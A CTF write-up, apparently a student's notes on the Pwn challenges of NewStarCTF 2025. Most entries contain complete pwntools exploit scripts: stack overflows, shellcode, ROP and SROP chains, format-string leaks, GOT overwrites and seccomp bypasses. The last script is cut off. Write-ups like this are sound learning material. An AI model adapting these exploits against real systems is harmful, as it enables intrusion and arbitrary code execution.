



参加的第一个CTF比赛，仅保留 Pwn 部分

最后靠着 Pwn 到了校内第二名

缺两道题 (content和llama-pwn)

# Week 1

## GNU Debugger

### 操作内容：

使用r <server_ip> <server_port>运行

关卡 1: 找到r12的值，输入c继续

关卡 2: tel 0x402457得到GDB_IS_POWERFUL

关卡 3: b *0x400fa9，接着c即可

关卡 4: set {int}0x7fffffffdf04 = 0xdeadbeef 修改值


---


## INTbug

### 操作内容：

IDA反编译，进入func()，发现任意输入一个正数，16位int的v1存在溢出漏洞，发送32768次后变为负数

```python
from pwn import *

# p = process('./INTbug')
p = remote('xxx', xxx)

payload = b'1'

p.recvuntil(b'welcome to NewStarCTF2025!\n\n')

for i in range(32768):
    p.sendline(payload)

p.interactive()
```


---


## pwn's door

### 操作内容：

IDA反编译，发现输入7038329即可获得sh，然后cat flag


---


## overflow

### 操作内容：

checksec，发现没有保护

IDA反编译，发现使用gets读入，存在栈溢出

发现后门函数backd00r，地址0x401200

直接ret2text（需要使用ret平衡）

```python
from pwn import *

# p = process('./overflow')
p = remote("xxx", xxx)

payload = b'A' * (0x100 + 8) + p64(0x401016) + p64(0x401200)

p.sendlineafter(b'Enter your input:\n', payload)

p.interactive()
```


---


## input_function

### 操作内容：

checksec，开启了NX和PIE

IDA反编译，发现程序直接运行输入的东西

使用shellcraft.sh()生成64位的execve("/bin/sh", 0, 0)函数对应的asm

```python
from pwn import *

context(arch='amd64', os='linux')

# p = process('./input_function')
p = remote("xxx", xxx)

payload = asm(shellcraft.sh())

p.recvuntil(b')\n')
p.send(payload)

p.interactive()
```


# Week 2

## 刻在栈里的秘密

### 操作内容：

RSI到密码距离为24

使用`%24$p` `%24$s`得到地址和密码


---


## input_small_function

### 操作内容：

程序读取0x14 (20) 的内容并直接执行

尝试调用read(0, 某个地址, 0x500)并跳转过去

利用xor设0，比mov小

然后直接生成sh字节码

```python
from pwn import *

context(arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]

# p = process('./input_small_function')
p = remote("xxx", xxx)

payload = """
    xor eax, eax
    xor edi, edi
    lea rsi, [rip + 0x50]
    mov edx, 0x500
    syscall
    jmp rsi
"""
compiled = asm(payload)
print(len(compiled))
assert len(compiled) <= 20
p.recvuntil(b')\n')
# gdb.attach(p)
p.send(compiled.ljust(20, b'\x00'))

payload = shellcraft.sh()
compiled = asm(payload)
p.send(compiled)

p.interactive()
```


---


## syscall

### 操作内容：

程序开启了Canary，但似乎没有用?

由于是32位程序，使用eax=0xb, ebx="/bin/sh", ecx=0, edx=0, int 0x80调用execve

没有现成的/bin/sh，尝试写入bss段

这里使用了0x080b431c : mov dword ptr [eax + 0x4c], edx ; ret辅助

```python
from pwn import *

context(arch="i386", log_level="debug")
context.terminal = ["tmux", "splitw", "-h"]

# p = process('./syscall')
p = remote("xxx", xxx)
elf = ELF('./syscall')

bss = elf.bss() + 0x100
int_0x80 = 0x08049c0a
eax = 0x080b438a
ebx = 0x08049022
ecx = 0x0804985a
edx = 0x0804985c
mov_in_eax_0x4c_edx = 0x080b431c

payload = b'\x00'*(0x12+4)
payload += p32(eax) + p32(bss)
payload += p32(edx) + b'/bin'
payload += p32(mov_in_eax_0x4c_edx)
payload += p32(eax) + p32(bss + 4)
payload += p32(edx) + b'/sh\x00'
payload += p32(mov_in_eax_0x4c_edx)
payload += p32(eax) + p32(0xb)
payload += p32(ebx) + p32(bss + 0x4c)
payload += p32(ecx) + p32(0)
payload += p32(edx) + p32(0)
payload += p32(int_0x80)

p.recvuntil(b'pwn it guys!\n')
# gdb.attach(p)
p.send(payload)


p.interactive()
```


---


## no shell

### 操作内容：

流程：不输入Y/y，2，2. Get the power of your cat， 1. Check your power

沙箱阻止了execve，使用ORW得到flag

用mov rdi, rax传递open的fd号

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
context.terminal = ["tmux", "splitw", "-h"]

# p = process("./noshell")
p = remote("xxx", xxx)
elf = ELF("./noshell")

bss_start = elf.bss() + 0x100

rdi = 0x4013f3
rsi = 0x4013f5
rdx = 0x4013f7
ret = 0x40101a

p.sendlineafter(b'something?\n', b'0')
p.sendlineafter(b'flag?\n', b'2')
p.sendlineafter(b'your choice: ', b'2')
p.sendlineafter(b'your choice: ', b'1')

payload = b'\x00'*(0x20+8) + p64(rdi) + p64(0) + p64(rsi) + p64(bss_start) + p64(rdx) + p64(7) + p64(elf.plt['read'])
payload += p64(rdi) + p64(bss_start) + p64(rsi) + p64(0) + p64(elf.plt['open'])
payload += p64(0x4013f9) + p64(rsi) + p64(bss_start + 0x100) + p64(rdx) + p64(0x30) + p64(elf.plt['read'])
payload += p64(rdi) + p64(1) + p64(rsi) + p64(bss_start + 0x100) + p64(rdx) + p64(0x30) + p64(elf.plt['write'])

p.sendafter(b'say something:\n', payload)

p.send(b'./flag\x00')

p.interactive()
```


---


## calc_beta

### 操作内容：

进入edit_numbers后，栈结构长这样：

|       rsp        |
| :--------------: |
| ... （有Canary） |
|       rbp        |
|   rip -> main    |
|      s[136]      |
|       ...        |

而index没有检查<=0，所以修改位置0（&s[8 * (0-1)]）刚好就是rip，其他东西以数字形式放入s[]

使用libc2csu

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
context.terminal = ["tmux", "splitw", "-h"]

# p = process('./calc')
p = remote("xxx", xxx)
elf = ELF('./calc')
libc = ELF('./libc.so.6')

bss = elf.bss() + 0x100
main = 0x4010B4
gadget1 = 0x40124A
gadget2 = 0x401230

def edit(index, value):
    if value == 0:
        return
    p.sendafter(b'> ', b'2')
    p.sendafter(b'> ', str(index).encode())
    p.sendafter(b'> ', str(value).encode())

# 泄露write -> libc地址
edit(1, 0)
edit(2, 1)
edit(3, elf.got['write'])
edit(4, 1)
edit(5, elf.got['write'])
edit(6, 6)
edit(7, gadget2)
edit(8, 0)
edit(9, 0)
edit(10, 0)
edit(11, 0)
edit(12, 0)
edit(13, 0)
edit(14, 0)
edit(15, main)
edit(0, gadget1)

write_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.success(hex(write_addr))
libc_addr = write_addr - libc.sym['write']
log.success(hex(libc_addr))
system_addr = libc_addr + libc.sym['system']

# 将'/bin/sh\x00'放入bss
edit(1, 0)
edit(2, 1)
edit(3, elf.got['read'])
edit(4, 0)
edit(5, bss)
edit(6, 8)
edit(7, gadget2)
edit(8, 0)
edit(9, 0)
edit(10, 0)
edit(11, 0)
edit(12, 0)
edit(13, 0)
edit(14, 0)
edit(15, main)
edit(0, gadget1)
p.send(b'/bin/sh\x00')

# 调用system
edit(1, bss)
edit(2, 0x4006b6) # ret
edit(3, system_addr)
# gdb.attach(p)
edit(0, 0x401253) # pop rdi ; ret

p.interactive()
```

# Week 3

## fmt and canary

### 操作内容：

输入AAAAAAAA %p %p %p %p %p %p %p %p，得知偏移为6

通过调试得Canary位于6+5=11，(__libc_start_main+128) 位于6+27=33

输入end后使用ret2libc

```python
from pwn import *

context(arch='amd64', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']

# p = process('./fmt_canary')
p = remote('xxx', xxx)
elf = ELF('./fmt_canary')
libc = ELF('./libc.so.6')

p.recvuntil(b'!\n')
p.send(b'%11$p'.ljust(8, b'\x00'))

recv = p.recv(18)
print(str(recv[2:]))
canary = int(recv.decode(), 16)
success(f"Canary -> {hex(canary)}")

p.recvuntil(b'!\n')
# gdb.attach(p)
p.send(b'%33$p\n'.ljust(8, b'\x00'))

recv = p.recvline()
libc_base = int(recv.strip().decode(), 16) - (libc.sym['__libc_start_main'] + 128)
success(f"libc_base -> {hex(libc_base)}")

p.recvuntil(b'!\n')
p.send(b'end\n')

p.recvuntil(b'QwQ:')
payload = b'\x00'*40 + p64(canary) + p64(0) + p64(libc_base + 0x02a3e5) + p64(libc_base + 0x1d8678) + p64(0x40101a) + p64(libc_base + libc.sym['system'])
p.send(payload)

p.interactive()
```


---


## sandbox_plus

### 操作内容：

seccomp-tools dump查看，发现禁用了execve和常规orw

这里使用openat+readv+writev

这里内存开在了0x114000~0x115000

需要提前把iov结构体放在某个地方

```python
from pwn import *

context(arch='amd64')
context.terminal = ['tmux', 'splitw', '-h']

# p = process('./sandbox_plus')
p = remote('xxx', xxx)

# gdb.attach(p)

# struct iovec{
#     void __user* iov_base;
#     __kernel_size_t iov_len;
# }

shellcode = shellcraft.openat(-100, "./flag", 0, 0) # AT_FDCWD(-100)，指定路径为当前路径
shellcode += f'''
    mov qword ptr [0x114200], 0x114300
    mov qword ptr [0x114208], 0x30
'''
shellcode += shellcraft.readv(3, 0x114200, 1)
shellcode += shellcraft.writev(1, 0x114200, 1)


print(shellcode)

p.sendafter(b')\n', asm(shellcode))

p.interactive()

```


---


## calc_meow

### 操作内容：

程序开启了PIE，首先想方法获得程序基址

调试发现calc()里rip位置指向 (main + 245) 位置

由于调用show_numbers()后只能修改一次，必须通过计算的方法放入数据

泄露libc地址后，使用ret2libc

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
context.terminal = ["tmux", "splitw", "-h"]

# p = process('./calc')
p = remote('xxx', xxx)
elf = ELF('./calc')
libc = ELF('./libc.so.6')

ret = 0x00101a
rdi_ret = 0x001d11

def edit(index, value):
    if value == 0:
        return
    p.sendafter(b'> ', b'2')
    p.sendafter(b'> ', str(index).encode())
    p.sendafter(b'> ', str(value).encode())

def add(index1, index2, index3):
    p.sendafter(b'> ', b'1')
    p.sendafter(b'> ', str(index1).encode())
    p.sendafter(b'> ', str(index2).encode())
    p.sendafter(b'> ', str(index3).encode())

def sub(index1, index2, index3):
    p.sendafter(b'> ', b'2')
    p.sendafter(b'> ', str(index1).encode())
    p.sendafter(b'> ', str(index2).encode())
    p.sendafter(b'> ', str(index3).encode())

edit(16, elf.sym['main'] + 245)
edit(15, rdi_ret)
edit(1, elf.got['puts'])
edit(2, elf.plt['puts'])
edit(3, elf.sym['main'])

p.sendafter(b'> ', b'4') # enter calc

sub(0, 16, 16) # 16 -> p_base
for i in range(1, 4):
    add(i, 16, i)
add(15, 16, 0)

p.sendafter(b'> ', b'6') # leave calc

libc_base = u64(p.recv(6).ljust(8, b'\x00')) - libc.sym['puts']
log.success(f'libc_base ----> {hex(libc_base)}')


edit(0, libc_base + 0xebd43) # one_gadget

p.interactive()
```


---


## only_read

### 操作内容：

程序禁用了execve，使用orw

gift()提供了srop的机会和syscall ; ret

利用main的两次read，可以实现栈迁移

流程：栈迁移 -> ret gift -> 设置寄存器 -> syscall ; ret -> gift ...

```python
from pwn import *

context(arch='amd64', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']

# p = process('./srop')
p = remote('xxx', xxx)
elf = ELF('./srop')

bss = elf.bss(0x200)
syscall_ret = 0x40136D
gift = 0x401366

payload = b'\x00'*0x10 + p64(bss - 0x30) + p64(0x401349)
p.send(payload)

sleep(1)

payload = p64(bss - 0x10)*3 + p64(gift)
frame = SigreturnFrame()
frame.rax = constants.SYS_read
frame.rdi = 0
frame.rsi = bss - 0x8
frame.rdx = 0x400
frame.rsp = bss
frame.rbp = bss + 0x100
frame.rip = syscall_ret
payload += bytes(frame)
p.send(payload[:0x100])

payload = p64(0x67616c662f2e) # "./flag" <- bss - 0x8
payload += p64(gift) # <- bss
frame = SigreturnFrame()
frame.rax = constants.SYS_open
frame.rdi = bss - 0x8
frame.rsi = 0
frame.rdx = 0
frame.rsp = bss + 0x100 # 刚好到下面的gift地址
frame.rbp = bss + 0x100 + 0x100
frame.rip = syscall_ret
payload += bytes(frame)
payload += p64(gift)
frame = SigreturnFrame()
frame.rax = constants.SYS_read
frame.rdi = 3
frame.rsi = bss - 0x100 # 文件内容 <- bss - 0x100
frame.rdx = 0x30
frame.rsp = bss + 0x100 + 0x100
frame.rbp = bss + 0x100 + 0x100 + 0x100
frame.rip = syscall_ret
payload += bytes(frame)
payload += p64(gift)
frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = 1
frame.rsi = bss - 0x100
frame.rdx = 0x30
frame.rip = syscall_ret
payload += bytes(frame)
p.send(payload)


p.interactive()
```


---


## 小的明？题问

### 操作内容：

注意到 user* users; int user_counts, user_size; 在所有线程共用

且没有限制同一个账号的登录

于是随意注册一个账号，用两个客户端同时登录，两次删除

这样就把user_counts降为0，相当于删除了root账号

此时再注册root账号，拿到flag


# Week 4


## fmt and got

### 操作内容：

程序是No RELRO，意味着可以随意修改got表

存在后门函数read_flag

所以通过`%x$hnn`修改单字节来把got_exit改为read_flag地址

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]
context.bits = 64

# p = process('./fmt_got')
p = remote('xxx', xxx)
elf = ELF('./fmt_got')

# payload = fmtstr_payload(??, {elf.got['exit']: elf.sym['read_flag']})

# read_flag <- 0x401236 (0x36->54, 0x112->274)
# "That's what you want to say...    " -> len = 34

payload = b'%20x%14$hhn%220x%15$hhn' # len = 23
payload += b'\x00'*7 # len = 7
payload += p64(0x403430) + p64(0x403431) # 64 => 8+6=14


print(payload)

# gdb.attach(p)

p.sendafter(b'\n> ', payload)

p.interactive()
```


---


## memory

### 操作内容：

程序读入了/flag文件，并映射到内存某个位置

之后读入内容放入flag后，使用mprotect使对应位置可执行

沙箱仅允许write和exit

之后清空了所有寄存器，只留rip

在gdb中用search搜索flag，发现就在rip前面一点

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]

# p = process('./memory')
p = remote('xxx', xxx)

p.recvuntil(b" > ")

shellcode = '''

    lea rsp, [rip-0x50]
    mov al, 1
    mov dil, 1
    mov rsi, rsp
    mov rdx, 0x60
    syscall


'''

# gdb.attach(p)

p.send(asm(shellcode))

p.interactive()
```


---


## 海市蜃楼

### 操作内容：

city函数放在.init_array段中，在main前执行

其将一些随机字节放入0x10000~0x50000并设为可执行

通过get_sands获得随机种子，如果使用相同随机数生成器就可以得到相同结果

这里使用python的ctypes.CDLL

在随机数据中寻找pop rdi; ret来传参，然后ret2libc

```python
from pwn import *
import ctypes

libc_dll = ctypes.CDLL("./libc.so.6")

context.arch = "amd64"
# context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]
context.bits = 64

# p = process('./desert')
p = remote('xxx', xxx)
elf = ELF('./desert')
libc = ELF('./libc.so.6')

ret = 0x40101a

shellcode = '''
    pop rdi
    ret
''' # => 95 195

# for c in asm(shellcode):
#     print(c)

p.sendlineafter(b'>> ', b'1')
p.recvuntil(b'?? ')
seed = int(p.recvline().decode().split(' ')[0])
log.success(f'seed ---> {seed}')
libc_dll.srand(seed)

L = []
for i in range(0x3FFFF+1):
    L.append(libc_dll.rand() % 256)

pop_rdi_ret = 0
for i in range(0x3FFFF+1):
    if L[i] == 95 and L[i+1] == 195:
        pop_rdi_ret = i
        break

if pop_rdi_ret == 0:
    log.error("Not Found!")
    exit(0)

log.success(f'pop_rdi_ret ---> {pop_rdi_ret}')

p.sendlineafter(b'>> ', b'2')
p.recvuntil(b'>> ')

payload = b'A'*(0x50+8) + p64(0x10000 + pop_rdi_ret) + p64(elf.got['read']) + p64(ret) + p64(elf.sym['my_puts']) + p64(0x401563)
p.send(payload)

s = b''
for i in range(6):
    s += p.recv(1)

libc_base = u64(s.ljust(8, b'\x00')) - libc.sym['read']
log.success(f'libc_base ---> {hex(libc_base)}')


p.recvuntil(b'>> ')

payload = b'A'*(0x50) + p64(0) + p64(0x10000 + pop_rdi_ret) + p64(libc_base + 0x1d8678) + p64(ret) + p64(libc_base + libc.sym['system'])

# gdb.attach(p)

p.send(payload)

p.interactive()
```


---


## calc_queen

### 操作内容：

基本找不到稳定的传参方法，无法直接泄露任何地址

已知main对应栈帧下方有__libc_start_main+128的地址

如果能把main栈帧搞到下面，就可以用calc()计算出libc地址

这里找到了add rsp, 8和pop rbp; ret

在main中使用add rsp, 8并回到main，再进入edit()

就能使edit的栈帧和s[]有部分重叠，使用calc()就能将main的rbp放入s[]

再用pop rbp; ret，就可以成功将栈向下移动32位

重复这个过程，注意向下移动时要迁移保留程序基址

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
context.terminal = ["tmux", "splitw", "-h"]

# p = process('./calc')
p = remote('xxx', xxx)
elf = ELF('./calc')
libc = ELF('./libc.so.6')

pop_rbp_ret = 0x001293
add_rsp_ret = 0x001CBC
rdi_ret = 0x001d11

def edit(index, value):
    p.sendafter(b'> ', b'2')
    p.sendafter(b'> ', str(index).encode())
    p.sendafter(b'> ', str(value).encode())

def edit2(index, value):
    p.sendafter(b'> ', str(index).encode())
    p.sendafter(b'> ', str(value).encode())

def add(index1, index2, index3):
    p.sendafter(b'> ', b'1')
    p.sendafter(b'> ', str(index1).encode())
    p.sendafter(b'> ', str(index2).encode())
    p.sendafter(b'> ', str(index3).encode())

def sub(index1, index2, index3):
    p.sendafter(b'> ', b'2')
    p.sendafter(b'> ', str(index1).encode())
    p.sendafter(b'> ', str(index2).encode())
    p.sendafter(b'> ', str(index3).encode())

edit(8, elf.sym['main'] + 240)
# edit(1, elf.bss(16))
# edit(2, 0x001C4E)
edit(2, 0x001C4E) # edit
edit(1, add_rsp_ret) # add rsp, 8 ; ret

p.sendafter(b'> ', b'4') # enter calc

sub(0, 8, 8) # 8 -> p_base
add(2, 8, 2)
add(1, 8, 0)

p.sendafter(b'> ', b'6') # leave calc

# ------------------------------------

edit2(7, 32)
edit(5, pop_rbp_ret)
edit(4, add_rsp_ret)
edit(6, 0x001C4E)

p.sendafter(b'> ', b'4') # enter calc

add(1, 3, 3) # 3 -> rbp
add(3, 7, 3) # rbp += 8
add(5, 8, 2) # pop rbp ; ret
add(4, 8, 4) # add rsp, 8 ; ret
add(6, 8, 6)

p.sendafter(b'> ', b'6') # leave calc

# ------------------------------------

edit2(7, 32)
edit(8, 0)
edit(6, 0x001C4E)
edit(3, add_rsp_ret)
edit(5, pop_rbp_ret)

p.sendafter(b'> ', b'4') # enter calc

add(4, 8, 8) # 8 -> p_base
add(3, 8, 4) # add rsp, 8 ; ret
sub(3, 3, 3) # 3 = 0
add(1, 3, 3) # 3 -> rbp
add(3, 7, 3) # rbp += 8
add(5, 8, 2) # pop rbp ; ret
add(6, 8, 6)

p.sendafter(b'> ', b'6') # leave calc

# ------------------------------------

edit2(7, 32)
edit(8, 0)
edit(6, 0x001C4E)
edit(3, add_rsp_ret)
edit(5, pop_rbp_ret)

p.sendafter(b'> ', b'4') # enter calc

add(4, 8, 8) # 8 -> p_base
add(3, 8, 4) # add rsp, 8 ; ret
sub(3, 3, 3) # 3 = 0
add(1, 3, 3) # 3 -> rbp
add(3, 7, 3) # rbp += 8
add(5, 8, 2) # pop rbp ; ret
add(6, 8, 6)

p.sendafter(b'> ', b'6') # leave calc

# ------------------------------------

edit2(7, 32)
edit(8, 0)
edit(6, 0x001C4E)
edit(3, add_rsp_ret)
edit(5, pop_rbp_ret)

p.sendafter(b'> ', b'4') # enter calc

add(4, 8, 8) # 8 -> p_base
add(3, 8, 4) # add rsp, 8 ; ret
sub(3, 3, 3) # 3 = 0
add(1, 3, 3) # 3 -> rbp
add(3, 7, 3) # rbp += 8
add(5, 8, 2) # pop rbp ; ret
add(6, 8, 6)

p.sendafter(b'> ', b'6') # leave calc

# ------------------------------------

edit2(7, 32)
edit(8, 0)
edit(6, 0x001C4E)
edit(3, add_rsp_ret)
edit(5, pop_rbp_ret)

p.sendafter(b'> ', b'4') # enter calc

add(4, 8, 8) # 8 -> p_base
add(3, 8, 4) # add rsp, 8 ; ret
sub(3, 3, 3) # 3 = 0
add(1, 3, 3) # 3 -> rbp
add(3, 7, 3) # rbp += 8
add(5, 8, 2) # pop rbp ; ret
add(6, 8, 6)

p.sendafter(b'> ', b'6') # leave calc

# ------------------------------------

edit2(7, 32)
edit(8, 0)
edit(6, 0x001C4E)
edit(3, add_rsp_ret)
edit(5, pop_rbp_ret)

p.sendafter(b'> ', b'4') # enter calc

add(4, 8, 8) # 8 -> p_base
add(3, 8, 4) # add rsp, 8 ; ret
sub(3, 3, 3) # 3 = 0
add(1, 3, 3) # 3 -> rbp
add(3, 7, 3) # rbp += 8
add(5, 8, 2) # pop rbp ; ret
add(6, 8, 6)


p.sendafter(b'> ', b'6') # leave calc

# ------------------------------------

edit2(7, libc.sym['__libc_start_main']+128)
edit(6, 0x02a3e5)
edit(3, 0x1d8678)
edit(5, libc.sym['system'])
edit(4, 0x029139)

p.sendafter(b'> ', b'4') # enter calc

sub(8, 7, 7)
add(6, 7, 2)
add(3, 7, 3)
add(4, 7, 4)
add(5, 7, 5)

# gdb.attach(p)

p.sendafter(b'> ', b'6') # leave calc

# edit(0, libc_base + 0xebd43) # one_gadget

p.interactive()
```


# Week 5


## go?

### 操作内容：

这是一个Befunge解释器

原始指令表如下：（为了对齐，把\n改为:）

```
v       ,*25    <
"v       <    
:>~:25* -|v < 
t,          , 
u,       >>:| 
p,          >   ^
n,  
i,
",
>^
```

效果为输出input\n，读入直到\n并复读

明显存在模拟栈上的溢出，可修改到指令表

由于按QWORD存入，溢出'   \>&&&p<\n'后得到

```
                >       &       &       &       p       <
              
:>~:25* -|v < 
t,          , 
u,       >>:| 
p,          >   ^
n,  
i,
",
>^
```

实现程序的修改

再得到

```
                >       &       &       &       p       v
                ^,g&&                                   <
                ^                                       <
```

由于p, g没有对参数检查，实现任意程序内地址的读写

读取stdout泄露libc基址

尝试将.got.plt的地址改为one gadget，均不可用（应该吧）

发现`&`功能可以将输入的数字放入rdi，从而控制rdi

将rand的got地址改为system (因为rand本身无参数)

输入/bin/sh的地址

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

# p = process('./chal')
p = remote('xxx', xxx)
libc = ELF('./libc.so.6')

def edit1(row, column, c):
  p.sendline(str(ord(c)).encode())
  p.sendline(str(row).encode())
  p.sendline(str(column).encode())
  p.send(b'9\n9\n9\n')

def edit(row = 9, column = 9, c = '9'):
  p.sendline(str(ord(c)).encode())
  p.sendline(str(row).encode())
  p.sendline(str(column).encode())

def edit2(row, column, c):
  p.sendline(str(c).encode())
  p.sendline(str(row).encode())
  p.sendline(str(column).encode())

def show(row = 9, column = 9):
  p.sendline(str(column).encode())
  p.sendline(str(row).encode())


p.send(b'A'*255 + b'  >&&&p<\n')

p.recvuntil(b'A'*255)

edit1(1, 16, '^')
edit1(1, 17, ',')
edit1(1, 18, 'g')
edit1(1, 19, '&')
edit1(1, 20, '&')
edit1(1, 56, '<')
edit1(2, 16, '^')
edit1(2, 56, '<')

# gdb.attach(p, 'b *$rebase(0x001847)\n')

edit(0, 56, 'v')
show(0, -2112)
edit()
show(0, -2111)
edit()
show(0, -2110)
edit()
show(0, -2109)
edit()
show(0, -2108)
edit()
show(0, -2107)
libc_base = u64(p.recv(6).ljust(8, b'\x00')) - libc.sym['_IO_2_1_stdout_']
log.success(f"libc_base -> {hex(libc_base)}")

edit(1, 56, 'v')

addr = libc_base + libc.sym['system']
print(hex(addr))

edit2(0, -2280, addr % 256)
addr //= 256
edit2(0, -2279, addr % 256)
addr //= 256
edit2(0, -2278, addr % 256)
addr //= 256
edit2(0, -2277, addr % 256)
addr //= 256
edit2(0, -2276, addr % 256)
addr //= 256
edit2(0, -2275, addr % 256)

# gdb.attach(p)

edit(0, 55, '&')
p.sendline('0'.encode())
edit(0, 56, '?')
p.sendline(str(libc_base + next(libc.search('/bin/sh'))).encode())

p.interactive()
```


---


## 复读机堂堂归来！复读机堂堂归来！

### 操作内容：

读入的内容放在了bss段，printf格式化漏洞只能利用栈上原本的信息

存在后门函数win()



按照这个路径修改，先用`%6$(h)hn`把蓝色箭头所指位置改为rip栈上位置，再通过`%26$hhn`把rip改为win地址

```python
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

p = process('./bss_fmt')
# p = remote('xxx', xxx)

p.recvuntil(b'!\n')

p.recvuntil(b'!\n')
p.sendline(b'%p')
p_base = int(p.recvline(keepends=False), 16) - 0x004060
log.success(f'p_base -> {hex(p_base)}')

p.recvuntil(b'!\n')
p.sendline(b'%p %p %p %p %p %p')
rip = int(p.recvline(keepends=False).decode().split(' ')[-1], 16) - 0x98
log.success(f'rip -> {hex(rip)}')

# gdb.attach(p)

win = p_base + 0x001289
log.success(f'win -> {hex(win)}')

p.recvuntil(b'!\n')
p.sendline(f'%{rip%(256*256)}c%6$hn'.encode())

p.recvuntil(b'!\n')
p.sendline(f'%{win%256}c%26$hhn'.encode())
win //= 256

p.recvuntil(b'!\n')
p.sendline(f'%{rip%256+1}c%6$hhn'.encode())

p.recvuntil(b'!\n')
p.sendline(f'%{win%256}c%26$hhn'.encode())
win //= 256

p.recvuntil(b'!\n')
p.sendline(f'%{rip%256+2}c%6$hhn'.encode())

p.recvuntil(b'!\n')
p.sendline(f'%{win%256}c%26$hhn'.encode())
win //= 256

p.recvuntil(b'!\n')
p.sendline(f'%{rip%256+3}c%6$hhn'.encode())

p.recvuntil(b'!\n')
p.sendline(f'%{win%256}c%26$hhn'.encode())
win //= 256

p.recvuntil(b'!\n')
p.sendline(f'%{rip%256+4}c%6$hhn'.encode())

p.recvuntil(b'!\n')
p.sendline(f'%{win%256}c%26$hhn'.encode())
win //= 256

p.recvuntil(b'!\n')
p.sendline(f'%{rip%256+5}c%6$hhn'.encode())

p.recvuntil(b'!\n')
p.sendline(f'%{win%256}c%26$hhn'.encode())

# gdb.attach(p)

p.interactive()
```


---


## Pwn the world

### 操作内容：

一个比较暴力的解法，通过elf.disasm强行获取参数

chal总共有5种情况

值得注意的是，循环位移那题scanf %lld读入时要考虑符号位

```python
from pwn import *
import z3

context.arch = 'amd64'
# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

io = remote('xxx', xxx)

def decrypt(v2, constant):
    solver = z3.Solver()
    
    v1 = z3.BitVec('v1', 64)
    c = z3.BitVecVal(constant, 64)
    target = z3.BitVecVal(v2, 64)

    value = v1
    for i in range(1, 17):
        value = (value >> 64 - i) ^ (value << i) ^ c
    
    solver.add(value == target)

    if solver.check() == z3.sat:
        model = solver.model()
        return model[v1].as_long()
    else:
        print("ERROR")
        exit(1)

io.send(b'\n')

for i in range(1, 10001):
    io.recvuntil(f'Please input the payload of level{i}\n'.encode())
    elf = ELF(f'./bins/chal{i}')
    data = elf.get_section_by_name('.data').data().lstrip(b'\x00')
    pos = data.find(b'\x00')
    username = data[0:pos].ljust(0x30, b'\x00')
    data = data[pos:].lstrip(b'\x00')
    pos = data.find(b'\x00')
    password = data[0:pos].ljust(0x30, b'\x00')
    payload = username + password

    core = elf.disasm(elf.sym['core'], 200)
    # print(core)

    rodata = elf.get_section_by_name('.rodata').data()

